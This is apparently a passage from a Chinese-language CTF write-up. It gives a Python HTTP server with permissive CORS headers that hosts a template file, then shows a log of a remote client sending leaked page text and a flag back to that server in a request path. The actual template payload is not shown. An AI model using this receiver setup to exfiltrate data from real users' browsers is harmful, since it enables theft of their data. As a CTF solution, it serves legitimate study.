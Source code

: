 如果不想修改配置文件，可以使用python启动一个服务器。

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-

try:
    # Python 3
    from http.server import HTTPServer, SimpleHTTPRequestHandler, test as test_orig
    import sys
    def test (*args):
        test_orig(*args, port=int(sys.argv[1]) if len(sys.argv) > 1 else 8000)
except ImportError: # Python 2
    from BaseHTTPServer import HTTPServer, test
    from SimpleHTTPServer import SimpleHTTPRequestHandler

class CORSRequestHandler (SimpleHTTPRequestHandler):
    def end_headers (self):
        self.send_header('Access-Control-Allow-Origin', '*')
        SimpleHTTPRequestHandler.end_headers(self)

if __name__ == '__main__':
    test(CORSRequestHandler, HTTPServer)
```

然后创建`cdn/main.mst`文件即可。

目录:

```shell
[root@VM_89_224_redhat ~]# tree
.
├── cdn
│   └── main.mst
└── web_cache.py
```

最终结果:

```
[root@VM_89_224_redhat ~]# python web_cache.py 80
Serving HTTP on 0.0.0.0 port 80 ...
216.165.2.32 - - [19/Sep/2018 10:06:15] "GET /cdn/main.mst HTTP/1.1" 200 -
216.165.2.32 - - [19/Sep/2018 10:06:16] code 404, message File not found
216.165.2.32 - - [19/Sep/2018 10:06:16] "GET /WarGamesKung%20FurySneakersSwordfishThe%20Karate%20KidGhost%20in%20the%20ShellSerial%20Experiments%20LainThe%20MatrixBlade%20RunnerBlade%20Runner%202049HackersTRONTron:%20LegacyMinority%20ReporteXistenZflag%7BI_h0pe_you_w4tch3d_a11_th3_m0v1es%7D HTTP/1.1" 404 -
```

参考链接:

* https://xz.aliyun.com/t/2585

# PWN
